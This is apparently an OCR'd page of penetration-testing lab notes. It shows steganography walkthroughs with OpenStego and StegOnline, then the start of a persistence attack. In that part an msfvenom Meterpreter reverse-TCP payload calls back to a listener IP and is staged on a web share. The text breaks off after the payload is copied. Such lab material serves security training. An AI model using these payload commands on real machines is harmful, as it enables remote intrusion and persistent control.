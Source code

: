 #### OpenStego Image Steganography

**In OpenStego:**

- Click the ellipsis button next to Message File, select `New Text Document.txt` in `C:\OpenStego`, and click Open.
- Click the ellipsis button next to Cover File, select e.g., `Island.jpg`, and click Open.
- Click the ellipsis button next to Output Stego File, choose Desktop as the location, provide the file name as `Stego`, and click Open.
- Click Hide Data, and after successful embedding, minimize OpenStego.
- Double-click `Stego.bmp` on the Desktop to view the image with hidden text.
- Switch back to OpenStego, click Extract Data, select `Stego.bmp` as the Input Stego File, choose Desktop as the Output Folder, and click Extract Data.
- View the extracted text file (`New Text Document.txt`) on the Desktop.

#### StegOnline Image Steganography

- Go to `https://stegonline.georgeom.net/upload`.
- Upload `image.jpg`
- On the Image Options page, click Embed Files/Data.
- Check checkboxes under row 7, columns R, G, and B. (any row, just remember it)
- Scroll down to Input Data, select Text, type "Hello World!!!", and click Go.
- Save the image as `StegoOnline.png` from the Output section.
- Open a new tab, go to `https://stegonline.georgeom.net/upload`, and upload `StegoOnline.png`.
- On the Extract Data page, check checkboxes under row 7 and columns R, G, and B.
- Scroll down, click Go, and view the extracted data under Results.
- Download the extracted data if needed.

- Other tools like QuickStego, SSuite Picsel, CryptaPix, and gifshuffle can also be used for image steganography.

---

#### Maintain Persistence by Abusing Boot or Logon Autostart Execution

Here, we will exploit a misconfigured startup folder to gain privileged access and maintain persistence on the target machine.

##### Steps

**Setup and Initial Payload:**

- Generate a payload using the command:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=4444 -f exe > exploit.exe
    ```
- Create a shared folder for the exploit: 
    ```bash
    mkdir /var/www/html/share
    chmod -R 755 /var/www/html/share
    chown -R www-data:www-data /var/www/html/share
    ```
- Copy the payload to the shared folder:
    ```bash
    cp exploit.exe /var/www/html/share/
    ```
